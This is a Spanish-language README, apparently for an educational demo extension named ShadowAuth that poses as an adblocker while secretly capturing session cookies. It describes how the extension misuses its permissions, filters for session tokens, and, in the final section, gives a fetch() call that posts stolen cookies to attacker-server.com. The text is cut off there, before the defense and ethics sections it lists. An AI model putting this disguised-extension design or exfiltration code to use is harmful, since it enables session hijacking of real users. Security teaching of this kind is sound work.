 # ShadowAuth (AdGuardian Extension) — Technical Explanation

## 📌 Índice

1. Introducción
2. Arquitectura del sistema
3. Flujo de operación legítimo
4. Flujo de operación maliciosa simulada
5. Módulos principales
6. Permisos solicitados y su impacto
7. Captura de cookies: técnica detallada
8. Simulación de exfiltración de datos
9. Defensa contra este tipo de ataques
10. Consideraciones éticas
11. Conclusión

---

## 1. Introducción

**ShadowAuth** es un proyecto de demostración que replica cómo una extensión legítima puede ocultar funcionalidades maliciosas. Funciona principalmente como un **adblocker** genuino ("AdGuardian"), pero simula una **captura de cookies de sesión** con potencial para comprometer la seguridad de los usuarios.

Este proyecto está desarrollado exclusivamente con fines educativos.

---

## 2. Arquitectura del sistema

La extensión está estructurada en tres componentes principales:

- **background.js**: Núcleo de ejecución en segundo plano.
- **popup/**: Interfaz de usuario visible para la interacción con el usuario.
- **util/cookieManager.js**: Biblioteca modular para manipulación de cookies.

Estos componentes se comunican internamente usando mensajes del API de Chrome (`runtime.sendMessage`).

---

## 3. Flujo de operación legítimo

Cuando el usuario instala AdGuardian:

- El `background.js` intercepta solicitudes HTTP.
- Se bloquean anuncios mediante filtros básicos de URL.
- La interfaz `popup.html` muestra estadísticas de anuncios bloqueados.

Este flujo es completamente legítimo y funcional.

---

## 4. Flujo de operación maliciosa simulada

Paralelamente a la función legítima:

- `background.js` monitoriza eventos de navegación (`tabs.onUpdated`, `webRequest.onCompleted`).
- `cookieManager.js` recopila cookies de sesión accesibles.
- Las cookies capturadas se almacenan de forma local y segura (`storage.local`).

> **Importante**: No se envía ningún dato real a servidores externos.

---

## 5. Módulos principales

### 🔹 background.js

- Inicializa listeners para eventos de navegación.
- Llama a funciones de bloqueo de anuncios.
- Llama a `cookieManager.js` para capturar cookies tras cada carga de página.

### 🔹 popup/

- Ofrece control visual para el usuario: on/off adblocker, estadísticas.
- Simula "normalidad" para evitar sospechas.

### 🔹 cookieManager.js

- Utiliza `chrome.cookies.getAll({domain: targetDomain})`.
- Filtra cookies relevantes (sesiones activas, cookies no `HttpOnly`).
- Almacena las cookies simuladamente.

---

## 6. Permisos solicitados y su impacto

| Permiso        | Finalidad declarada (visible) | Uso oculto (simulado)        |
|----------------|-------------------------------|-------------------------------|
| `cookies`      | Control de sesiones de anuncios | Captura de cookies de sesión  |
| `tabs`         | Identificar sitios de anuncios | Monitorizar navegación       |
| `webRequest`   | Bloqueo de contenido publicitario | Oportunidad de intercepción |
| `storage`      | Guardar configuración de usuario | Almacenar cookies capturadas  |

**Comentario**: La mayoría de los usuarios aceptan estos permisos sin sospechar.

---

## 7. Captura de cookies: técnica detallada

Cuando un usuario navega por sitios web:

- El listener de eventos detecta que la página se ha cargado.
- Se llama a `chrome.cookies.getAll()` para capturar cookies del dominio activo.
- Las cookies se analizan buscando tokens de sesión (`sessionid`, `auth_token`, `sid`, etc.).
- Las cookies válidas se almacenan en `storage.local` encriptadas (opcionalmente en futuras versiones).

Así, sin necesidad de contraseñas ni tokens 2FA adicionales, **un atacante podría reutilizar sesiones activas**.

---

## 8. Simulación de exfiltración de datos

**Nota ética**: El proyecto **no exfiltra datos reales**.

Sin embargo, se documenta cómo podría hacerse:

```javascript
// Ejemplo NO ACTIVADO en el proyecto
fetch('https://attacker-server.com/collect', {
  method: 'POST',
  body: JSON.stringify(cookiesCaptured),
  headers: {
    'Content-Type': 'application/json'
  }
});
